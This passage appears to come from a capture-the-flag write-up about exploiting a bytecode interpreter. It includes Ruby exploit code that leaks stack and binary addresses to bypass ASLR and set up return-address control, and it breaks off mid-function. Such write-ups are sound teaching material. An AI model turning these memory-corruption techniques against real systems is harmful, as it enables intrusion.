   <span class="Comment"># Add the list of ops, offset by 10 (that's how the math worked out)</span>
  add(s, ops, <span class="Constant">16</span>)
<span class="Comment">#[...]</span>
</pre>

Now you can run entirely unverified bytecode instructions! That means full read/write/execute of arbitrary addresses relative to the base address of the <tt>registers</tt> array. That's awesome! Because the <tt>registers</tt> array is on the stack, we have read/write access relative to a stack address. That means you can trivially read/write the return address and leak addresses of the binary, libc, or anything you want. ASLR bypass and RIP control instantly!

<h2>Leaking addresses</h2>

There are two separate sets of addresses that need to be leaked. It turns out that even though ASLR is enabled, the addresses don't actually randomize between different connections, so I can leak addresses, reconnect, leak more addresses, reconnect, and run the exploit. It's not the cleanest way to solve the level, but it worked! If this didn't work, I could have written a simple multiplexer bytecode function that does all these things using the same function.

I mentioned I can trivially leak the binary address and a stack address. Here's how:

<pre>
<span class="Comment"># This function leaks two addresses: a stack address and the address of</span>
<span class="Comment"># the binary image (basically, defeating ASLR)</span>
<span class="rubyDefine">def</span> <span class="Identifier">leak_addresses</span>()
  puts(<span class="Special">&quot;</span><span class="Constant">[*] Bypassing ASLR by leaking stack/binary addresses</span><span class="Special">&quot;</span>)
  s = init()

  <span class="Comment"># There's a stack address at offsets 24/25</span>
  ops = []
  ops &lt;&lt; create_op(<span class="Type">OP_OUT</span>, <span class="Constant">24</span>)
  ops &lt;&lt; create_op(<span class="Type">OP_OUT</span>, <span class="Constant">25</span>)

  <span class="Comment"># 26/27 is the return address, we'll use it later as well!</span>
  ops &lt;&lt; create_op(<span class="Type">OP_OUT</span>, <span class="Constant">26</span>)
  ops &lt;&lt; create_op(<span class="Type">OP_OUT</span>, <span class="Constant">27</span>)

  <span class="Comment"># We have to cleanly exit</span>
  ops &lt;&lt; create_op(<span class="Type">OP_EXIT</span>)

  <span class="Comment"># Add the list of ops, offset by 10 (that's how the math worked out)</span>
  add(s, ops, <span class="Constant">16</span>)

  <span class="Comment"># Run the code</span>
  result = execute(s, <span class="Constant">0</span>, [])

  <span class="Comment"># The result is a space-delimited array of hex values, convert it to</span>
  <span class="Comment"># an array of integers</span>
  a = result.split(<span class="Special">/</span><span class="Constant"> </span><span class="Special">/</span>).map { |<span class="Identifier">str</span>| str.to_i(<span class="Constant">16</span>) }

  <span class="Comment"># Read the two values in and do the math to calculate them</span>
  <span class="Identifier">@@registers</span> = ((a[<span class="Constant">1</span>] &lt;&lt; <span class="Constant">32</span>) | (a[<span class="Constant">0</span>])) - <span class="Constant">0xc0</span>
  <span class="Identifier">@@base_addr</span> = ((a[<span class="Constant">3</span>] &lt;&lt; <span class="Constant">32</span>) | (a[<span class="Constant">2</span>])) - <span class="Constant">0x1efd</span>
